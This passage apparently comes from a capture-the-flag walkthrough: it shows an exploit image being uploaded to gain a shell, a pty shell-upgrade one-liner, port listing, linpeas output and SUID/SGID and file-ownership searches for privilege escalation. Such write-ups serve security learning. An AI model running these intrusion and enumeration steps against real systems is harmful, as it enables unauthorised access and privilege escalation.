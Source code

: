 ```bash
CLEANUP: Old file artifacts deleted!
SUCCESS: Exploit image written to "image.jpg"

```

Now let’s upload our image. After uploading, we have shell:

![image.png]({{ site.baseurl }}/assets/meta/image%204.png)

Let’s start default enumeration:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![image.png]({{ site.baseurl }}/assets/meta/image%205.png)

We don’t have the password for www-data user. 

There are only two subdomains:

![image.png]({{ site.baseurl }}/assets/meta/image%206.png)

Only two ports opened:

```bash
ss -lntp

State     Recv-Q    Send-Q       Local Address:Port        Peer Address:Port    
LISTEN    0         128                0.0.0.0:80               0.0.0.0:*       
LISTEN    0         128                0.0.0.0:22               0.0.0.0:*       
LISTEN    0         128                   [::]:22                  [::]:* 
```

Let’s upload linpeas and enumerate the host fully:

```bash
╔══════════╣ Sudo version                                              
╚ https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#sudo-version
Sudo version 1.8.27
```

It crashed.

Let’s find files with SUID and GUID bit set:

```bash
find / -perm -4000 -type f -ls 2>/dev/null
find / -perm -2000 -type f -ls 2>/dev/null

#find files belonging to user
find / -user dev_admin 2>/dev/null
```

Nothing interesting. Let’s find files related to www-data:

```bash
find / -user www-data 2>/dev/null
```
